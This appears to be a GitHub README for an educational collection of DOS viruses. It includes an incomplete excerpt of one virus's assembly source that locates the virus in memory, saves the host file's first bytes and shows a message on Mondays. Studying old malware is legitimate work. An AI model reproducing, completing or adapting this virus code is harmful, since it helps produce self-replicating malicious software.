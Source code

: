 Computer Viruses
================

This project contains education / informative materials about DOS viruses.

- The [/src](/src) folder contains a few DOS bases viruses created in assembler
- The [/doc](/doc) folder contains information about DOS viruses and antiviruses

```assembly
lungime equ ((offset sfirsit)-(offset entry))
.model tiny
.code
org 100h
entry: call entr                                ; find in BP the address of the virus
entr   proc near
       pop bp
       sub bp,3
       mov byte ptr [cale+2-entry+bp],'C'

       mov cx,5                                 ; save the first 5 bytes
       mov si,offset header-entry               ; in memory
       add si,bp
       mov di,offset horig-entry
       add di,bp
       rep movsb

          mov ah,2ah
          int 21h
          cmp al,1                               ; display the message if monday
          jnz urmat
          mov ah,9
          mov dx,offset mesaj-entry
          add dx,bp
          int 21h

	...
```

VMA
